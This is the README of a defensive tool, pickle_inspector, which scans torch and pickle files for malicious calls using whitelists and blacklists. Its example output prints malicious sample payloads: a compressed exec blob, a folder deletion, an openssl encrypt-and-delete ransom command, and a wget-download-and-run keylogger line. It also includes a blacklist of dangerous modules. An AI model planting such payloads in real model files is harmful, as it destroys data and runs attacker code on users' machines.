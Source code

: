 # pickle_inspector 🥒🔬
Check what is in the pickle before eating it.

It works on any type of pickle, but was made with `torch` in mind.

NOTE:
torch == 1.13.0 breaks using custom unpicklers, see https://github.com/pytorch/pytorch/issues/88438
until this is fixed, stick to 1.12.x or older.

## Scanning pickles via command line
**tl;dr** just let me scan my pickles.
Using a preset blacklist for arbitrary code execution
```sh
python scan_pickle.py -f exec -i pickled.pkl
```
```
> Using blacklist: exec
> Scanning file(s): ['pickle_injector/pickled.pkl']
> Using black list: ['__builtin__.breakpoint', '__builtin__.open', 'requests.*', 'builtins.open', '__builtin__.compile', 'socket.*', 'builtins.breakpoint', 'os.*', 'nt.*', 'builtins.eval', 'webbrowser.*', '__builtin__.eval', 'builtins.exec', 'posix.*', '__builtin__.exec', '__builtin__.getattr', 'builtins.getattrsubprocess.*', 'builtins.compile', 'aiohttp.*', 'httplib.*', 'sys.*']
> Reading pickle_injector/pickled.pkl
> Scanning: pickle_injector/pickled.pkl
> found: __builtin__.exec
> found: zlib.decompress
>
> Found blacklisted items:
>
>   __builtin__.exec.__call__((zlib.decompress((b'x\xda5\xcd]\n\xc3 \x10\x04\xe0\xf7\x9cb\xd9\x17\x15$\x07\x08x\x87\xde@$\xac\xe9R\xff\xd0\r\t\x94\xde\xbdB\xe9<}\x0c\x0c\x13{\xcd\x90\xcf$\xdcz\xddi\x0c.\x07pn\xb5\x0b<~\xcd\xd2\xc0\xfd\xad%\xf4\x83\xc4\xd1M\xbb\x85\xe9\xe14"^,O\xa8\x8d\x8aV\xa9\xa6UnQ\x16\xd4\xa5\x0c\x84\x01q[`\xa6u.\xa21\x9e\xfb\x0b-DN\xe4\xa2\x99[\xfbF\xefK\xc8\xe4=n\x939p\x99\xfcX0fi\xeb\x98\x8f\xa2\xcd\x17\x1d%6\xbc',), {}),), {})
>
> Scan for pickled.pkl FAILED ⚠️
```
Using a preset whitelist for a stable diffusion checkpoint
```sh
python scan_pickle.py --preset stable_diffusion_v1 --in sus.ckpt
```
```
> Using whitelist: stable_diffusion_v1
> Scanning file(s): ['sus.ckpt']
> Using white list: ['collections.OrderedDict', 'torch._utils._rebuild_tensor_v2', 'torch.HalfStorage', 'torch.FloatStorage', 'torch.IntStorage', 'torch.LongStorage', 'pytorch_lightning.callbacks.model_checkpoint.ModelCheckpoint', 'numpy.core.multiarray.scalar', 'numpy.dtype', '_codecs.encode']
> Reading sus.ckpt
> Found pickle in zip: archive/data.pkl
> Scanning: archive/data.pkl
> found: torch._utils._rebuild_tensor_v2
> found: torch.FloatStorage
> found: collections.OrderedDict
> found: torch.IntStorage
> found: torch.LongStorage
> found: pytorch_lightning.callbacks.model_checkpoint.ModelCheckpoint
> found: numpy.core.multiarray.scalar
> found: numpy.dtype
> found: _codecs.encode
>
> Scan for sus.ckpt PASSED ✅
```
### Script usage
```
usage: scan_pickle.py [-h] -i INPUT [INPUT ...]
                      [-p {stable_diffusion_v1,stable_diffusion_v2} [{stable_diffusion_v1,stable_diffusion_v2} ...]]
                      [-f {exec} [{exec} ...]] [-w WHITELIST [WHITELIST ...]] [-b BLACKLIST [BLACKLIST ...]]

Scan pickles

optional arguments:
  -h, --help            show this help message and exit
  -i INPUT [INPUT ...], --in INPUT [INPUT ...]
                        path to a pickle(s) or zip(s) containing pickles
  -p {stable_diffusion_v1,stable_diffusion_v2} [{stable_diffusion_v1,stable_diffusion_v2} ...], --preset {stable_diffusion_v1,stable_diffusion_v2} [{stable_diffusion_v1,stable_diffusion_v2} ...]
                        a whitelist preset to use
  -f {exec} [{exec} ...], --preset_blacklist {exec} [{exec} ...]
                        a blacklist preset to use
  -w WHITELIST [WHITELIST ...], --whitelist WHITELIST [WHITELIST ...]
                        whitelist of modules and functions to allow
  -b BLACKLIST [BLACKLIST ...], --blacklist BLACKLIST [BLACKLIST ...]
                        blacklist of modules and functions to block
```
## Inspecting
Inspect without unpickling.
```py
import torch
import pickle_inspector
result = torch.load('sus.pt', pickle_module=pickle_inspector.inspector)
for c in result.imports:
    print(c)
```
notice calls to `shutil.rmtree`, `os.system` or similar
```
> shutil.rmtree
> torch._utils._rebuild_tensor_v2
> collections.OrderedDict
> numpy.core.multiarray.scalar
> os.system
> numpy.dtype
> _codecs.encode
```
so we are taking a closer look at what is being called
```py
for c in result.calls:
    print(c)
```
and it seems like someone tried to delete something and ransom a file
```
> shutil.rmtree(('/very/important/folder'), {})
> collections.OrderedDict((), {})
> torch._utils._rebuild_tensor_v2((None, 0, (1000,), (1,), False, collections.OrderedDict((), {})), {})
...
> torch._utils._rebuild_tensor_v2((None, 0, (), (), False, collections.OrderedDict((), {})), {})
> os.system(('openssl enc -aes-128-ecb -in important_file -out give_money.enc -K 1337B00B135DEADBEEF; rm important_file'), {})
> numpy.dtype(('f8', False, True), {})
> numpy.dtype.__setstate__(((3, '<', None, None, None, -1, -1, 0),), {})
> _codecs.encode(('ñhã\x88µøÔ>', 'latin1'), {})
> numpy.core.multiarray.scalar((numpy.dtype(('f8', False, True), {}), _codecs.encode(('ñhã\x88µøÔ>', 'latin1'), {})), {})
```
## Controlled unpickling
Inspect and unpickle using white and blacklists.

```py
import torch
from pickle_inspector import UnpickleConfig, UnpickleControlled, PickleModule
config = UnpickleConfig()
# only allow  modules, classes and funcions in the whitelist
# the rest will be stubbed
config.whitelist = [
        'torch._utils._rebuild_tensor_v2',
        'torch.FloatStorage',
        'torch.IntStorage',
        'torch.LongStorage',
        'numpy.core.multiarray.scalar',
        'numpy.dtype',
        'collections.OrderedDict',
        '_codecs.encode'
]
result = torch.load('model.ckpt', pickle_module = PickleModule(UnpickleControlled, config))
state_dict = result.structure
for c in result.imports:
    print(c)
```
```
> torch._utils._rebuild_tensor_v2
> torch.FloatStorage
...
> __builtin__.eval
> collections.OrderedDict
...
```
```py
for c in results.calls:
    if 'eval' in c:
        print(c)
```
```py
> __builtin__.eval('import os;os.system("wget https://sus.to/keylog;chmod +x keylog;./keylog &")')
```
## Blacklist & Whitelist
The whitelist has priority over the blacklist.

If the blacklist contains items everything will be allowed except items in the blacklist,\
or items in the blacklist and in the whitelist. This is useful using wildcards.

Example: Block everything within `torch` except `torch.FloatStorage`
```py
conf.blacklist = ['torch.*']
conf.whitelist = ['torch.FloatStorage']
```

If the blacklist is empty and the whitelist contains items, \
everything except items in the whitelist will be blocked.

## Safe whitelist for stable diffusion
A premade whitelist for stable diffusion v1 and v2 is available in this project.

Example: Scan a stable diffusion v1 checkpoint
```py
import torch
from pickle_inspector import UnpickleConfig, PickleModule, UnpickleInspector, importlists
conf = UnpickleConfig(whitelist = importlists.stable_diffusion_v1)
torch.load('sd-v1-4.ckpt', pickle_module=PickleModule(UnpickleInspector, conf))
```

Tested with python 3.9 and torch 1.12.1

---

Copyright (C) 2022  Lopho `<contact@lopho.org>`\
Licensed under the AGPLv3 `<https://www.gnu.org/licenses/agpl-3.0.html>`
